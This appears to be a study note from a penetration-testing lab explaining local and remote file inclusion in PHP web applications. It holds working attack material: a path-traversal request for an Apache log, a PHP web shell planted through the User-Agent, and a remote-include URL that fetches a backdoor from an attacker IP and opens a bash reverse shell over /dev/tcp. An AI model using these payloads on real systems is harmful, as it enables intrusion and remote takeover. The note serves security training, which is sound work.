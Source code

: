 # File-Inclusions


# File Inclusion Vulnerabilities: LFI and RFI

## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

Screenshots
Command Execution on Target System

Crafting the RFI Exploit

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.
